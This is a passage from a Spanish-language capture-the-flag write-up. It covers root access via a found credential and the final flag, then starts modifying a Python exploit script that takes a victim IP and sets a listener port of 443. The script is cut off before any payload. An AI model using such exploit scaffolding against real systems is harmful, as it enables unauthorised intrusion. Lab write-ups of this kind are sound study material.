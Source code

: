 ![http](Imagenes/26.png)

Intentamos usar la credencial para conectarnos como root:

![http](Imagenes/27.png)

Visualizamos la última flag:

![http](Imagenes/28.png)

### MODIFICACIÓN DEL EXPLOIT DE PYTHON

Viendo que la escalada es tan sencilla, podemos añadir un par de lineas más al final del código para acceder como root:

```python
#!/usr/bin/python3

import signal, pdb, requests
from pwn import *

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n]")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) != 3:
    log.failure("Uso: python3 validation.py <IP_victima> <Filename>")
    sys.exit(1)

# Variables Globales
ip_victima = sys.argv[1]
filename = sys.argv[2]
lport = 443

```